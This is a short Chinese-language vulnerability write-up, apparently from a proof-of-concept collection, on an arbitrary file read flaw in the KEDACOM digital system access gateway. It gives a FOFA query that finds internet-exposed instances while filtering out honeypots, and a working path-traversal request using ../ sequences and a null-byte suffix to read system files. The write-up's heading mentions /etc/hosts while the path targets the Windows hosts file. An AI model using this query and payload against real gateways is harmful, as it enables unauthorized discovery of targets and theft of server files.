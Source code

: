 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

```
KEDACOM 数字系统接入网关
```

## FOFA

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162300072.png)

使用POC读取 /etc/hosts

```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162300019.png)